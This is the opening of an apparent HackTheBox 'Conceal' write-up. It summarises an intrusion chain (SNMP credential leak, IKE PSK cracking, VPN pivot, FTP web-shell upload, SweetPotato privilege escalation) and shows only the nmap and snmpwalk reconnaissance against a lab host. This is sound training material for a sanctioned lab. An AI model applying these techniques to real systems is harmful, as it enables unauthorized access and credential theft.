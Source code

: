 ### Key Techniques:

- **SNMP Information Disclosure**: Extracted sensitive system and VPN credentials.
- **IKE PSK Cracking**: Used `hashcat` to recover the VPN password.
- **VPN Pivoting**: Connected via IPsec to access internal services.
- **Web Shell Upload**: Abused FTP to place a backdoor on the web server.
- **Privilege Escalation via Token Impersonation**: Leveraged `SeImpersonatePrivilege` using `SweetPotato`.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ nmap -Pn -p- --min-rate=1000 -T4 10.10.10.116
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 23:25 MST
Nmap scan report for 10.10.10.116
Host is up.
All 65535 scanned ports on 10.10.10.116 are in ignored states.
Not shown: 65535 filtered tcp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 131.98 seconds



┌──(kali㉿kali)-[~/htb/conceal]
└─$ nmap -Pn -sU -p- --min-rate=1000 -T4 10.10.10.116
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 23:30 MST
Nmap scan report for 10.10.10.116
Host is up (0.13s latency).
Not shown: 65533 open|filtered udp ports (no-response)
PORT    STATE SERVICE
161/udp open  snmp
500/udp open  isakmp

Nmap done: 1 IP address (1 host up) scanned in 130.14 seconds
```

Unlike the usual machines, it has only open UDP ports : SNMP(161), IKE(500)
All tcp ports seems to be down while the host itself is up.

### snmp(UDP 161)

I ran `snmpwalk`. 

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ snmpwalk -v 2c -c public 10.10.10.116
iso.3.6.1.2.1.1.1.0 = STRING: "Hardware: AMD64 Family 25 Model 1 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 15063 Multiprocessor Free)"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3.1.1
iso.3.6.1.2.1.1.3.0 = Timeticks: (140073) 0:23:20.73
iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
iso.3.6.1.2.1.1.5.0 = STRING: "Conceal"
iso.3.6.1.2.1.1.6.0 = ""
iso.3.6.1.2.1.1.7.0 = INTEGER: 76
iso.3.6.1.2.1.2.1.0 = INTEGER: 15
<SNIP>



```